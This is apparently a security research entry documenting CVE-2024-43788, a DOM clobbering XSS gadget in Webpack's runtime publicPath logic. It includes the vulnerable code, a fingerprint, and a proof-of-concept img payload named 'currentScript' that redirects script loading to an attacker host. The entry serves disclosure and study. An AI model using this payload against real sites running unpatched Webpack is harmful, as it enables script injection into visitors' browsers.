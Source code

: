 ## Webpack

### Meta

+ Library: Webpack
+ Stars: 64.4K
+ Version: v5.93.0
+ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Patched
+ CVE: CVE-2024-43788
+ Foundby: TheHulk

### Library

URL: Self hosted

### Vulnerable Code Snippet

`webpack/runtime/publicPath`
```javascript
var scriptUrl;
if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
var document = __webpack_require__.g.document;
if (!scriptUrl && document) {
	if (document.currentScript)
		scriptUrl = document.currentScript.src;
	if (!scriptUrl) {
		var scripts = document.getElementsByTagName("script");
		if(scripts.length) {
			var i = scripts.length - 1;
			while (i > -1 && (!scriptUrl || !/^http(s?):/.test(scriptUrl))) scriptUrl = scripts[i--].src;
		}
	}
}
// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
__webpack_require__.p = scriptUrl;
```

`webpack/runtime/jsonp chunk loading`
```javascript
function loadUpdateChunk(chunkId, updatedModulesList) {
	currentUpdatedModulesList = updatedModulesList;
	return new Promise((resolve, reject) => {
		waitingUpdateResolves[chunkId] = resolve;
		// start update chunk loading
		var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
		// create error before stack unwound to get useful stacktrace later
		var error = new Error();
		var loadingEnded = (event) => {
			if(waitingUpdateResolves[chunkId]) {
				waitingUpdateResolves[chunkId] = undefined
				var errorType = event && (event.type === 'load' ? 'missing' : event.type);
				var realSrc = event && event.target && event.target.src;
				error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
				error.name = 'ChunkLoadError';
				error.type = errorType;
				error.request = realSrc;
				reject(error);
			}
		};
		__webpack_require__.l(url, loadingEnded);
	});
}
```

`webpack/runtime/load script`
```javascript
__webpack_require__.l = (url, done, key, chunkId) => {
	if(inProgress[url]) { inProgress[url].push(done); return; }
	var script, needAttach;
	if(key !== undefined) {
		var scripts = document.getElementsByTagName("script");
		for(var i = 0; i < scripts.length; i++) {
			var s = scripts[i];
			if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
		}
	}
	if(!script) {
		needAttach = true;
		script = document.createElement('script');

		script.charset = 'utf-8';
		script.timeout = 120;
		if (__webpack_require__.nc) {
			script.setAttribute("nonce", __webpack_require__.nc);
		}
		script.setAttribute("data-webpack", dataWebpackPrefix + key);

		script.src = url;
	}
	inProgress[url] = [done];
	var onScriptComplete = (prev, event) => {
		// avoid mem leaks in IE.
		script.onerror = script.onload = null;
		clearTimeout(timeout);
		var doneFns = inProgress[url];
		delete inProgress[url];
		script.parentNode && script.parentNode.removeChild(script);
		doneFns && doneFns.forEach((fn) => (fn(event)));
		if(prev) return prev(event);
	}
	var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
	script.onerror = onScriptComplete.bind(null, script.onerror);
	script.onload = onScriptComplete.bind(null, script.onload);
	needAttach && document.head.appendChild(script);
};
```

## More Details 

```
<html>
<head>
    <title>Webpack Gadgets</title>
</head>
<body>
<img name="currentScript" src="https://xxx.xxxx.xxx"></img>


<script src="https://raw.githubusercontent.com/jackfromeast/dom-clobbering-collection/main/domc-gadgets-assets/webpack/dist/webpack-gadgets.bundle.js?token=GHSAT0AAAAAACHOWGIH7SZYJ4GGACO6R4ZOZVDEPLQ"></script>
</body>
</html>
```

The `webpack.config.js` to generate the bundle can be found below. Note that, to avoid `__webpack_require__.p` being set as a fixed value, the config shouldn't set the `output.publicPath` field to a fix string.

```
module.exports = {
  entry: './entry.js', // Ensure the correct path to your entry file
  output: {
    filename: 'webpack-gadgets.bundle.js', // Output bundle file
    path: path.resolve(__dirname, 'dist'), // Output directory
    // publicPath: '/dist/', // this line will make __webpack_require__.p = "/dist/";
  },
  target: 'web',
  mode: 'development',
};
```

Webpack's generated code differes significantly for each use. Ensure that the code snippets appear, then browse the network requests to see the URLs that are requested. Some users may configure their public path differently. Fingerprint may not work if Webpack is configured to not produce source maps.


## PoC

```
<!--Library-->
<script src="./dist/webpack-gadgets.bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999"></img>
<!--Payload-->
```